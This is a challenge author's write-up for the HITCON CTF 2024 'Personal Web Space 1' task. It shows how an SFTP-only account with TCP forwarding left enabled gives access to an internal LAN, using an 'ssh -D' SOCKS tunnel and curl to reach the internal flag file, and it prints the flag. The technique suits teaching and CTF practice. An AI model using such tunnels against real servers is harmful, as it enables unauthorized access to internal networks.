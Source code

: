 # Personal Web Space 1

[](https://github.com/t510599/My-CTF-Challenges/tree/master/HITCON%20CTF/2024/Personal%20Web%20Space#personal-web-space-1)

- Tags: `web`, `misc`
- Score: 262/500
- Solves: 27

## Description

[](https://github.com/t510599/My-CTF-Challenges/tree/master/HITCON%20CTF/2024/Personal%20Web%20Space#description)

> Your dream space to create your own website.
> 
> [http://www.pws.chal.hitconctf.com/](http://www.pws.chal.hitconctf.com/)

## Overview

[![infra](https://github.com/t510599/My-CTF-Challenges/raw/master/HITCON%20CTF/2024/Personal%20Web%20Space/infra.svg)](https://github.com/t510599/My-CTF-Challenges/blob/master/HITCON%20CTF/2024/Personal%20Web%20Space/infra.svg)

ssh (sftp) TCP forwarding + access LAN

## Recon
1. By scanning or direct access to `http://www.pws.chal.hitconctf.com/`, one can get robots.txt -> flag.txt, apache2.zip.
2. Read apache2 conf, find that /flag.txt is ProxyPass to [http://internal/flag.txt](http://internal/flag.txt), but flag got substituted.  
    In addition, `Range` header has been unset in `RequestHeader unset Range`

    ```apache
    # location /flag.txt -> reverse proxy to the internal/flag.txt
    <Location /flag.txt>
       ProxyPass http://internal/flag.txt
       # what are u trying to do?
       RequestHeader unset Range
    
       # censor flags in the response
       AddOutputFilterByType SUBSTITUTE text/plain
       Substitute "s/hitcon\{.*?\}/hitcon\{**censored**\}/"
    </Location>
    ```
    
3. SFTP is run by openssh-server.  
    Read /etc/ssh/sshd_config with sftp, find that group `webuser` has been restricted to `internal-sftp` by `ForceCommand`, so no shell access.
    
    ```ssh
    Match Group webuser
      ForceCommand internal-sftp
    ```
    

## Solution
Look further, you can notice that `AllowTcpForwarding` defaults to `yes`, and there is no further restriction on group `webuser`.

In addition, if you look at last few lines of sshd_config, you will see example for `anoncvs`:

```ssh
#Match User anoncvs
#       X11Forwarding no
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server
```

`AllowTcpForwarding` is explicitly set to `no` here, which would be the hint for use TCP forwarding feature.

Create dynamic forwarding tunnel with no tty (`-N`).

```shell
ssh -D 4090 -N userXXX@file.pws.chal.hitconctf.com
```

Then you can fetch the internal server through tunnel (`-x socks5h` for DNS lookup through proxy).

```shell
curl -x socks5h://localhost:4090 http://internal/flag.txt
```

Flag.txt
`hitcon{My_l4n_had_b33n_sEEn_through_why??!!}`
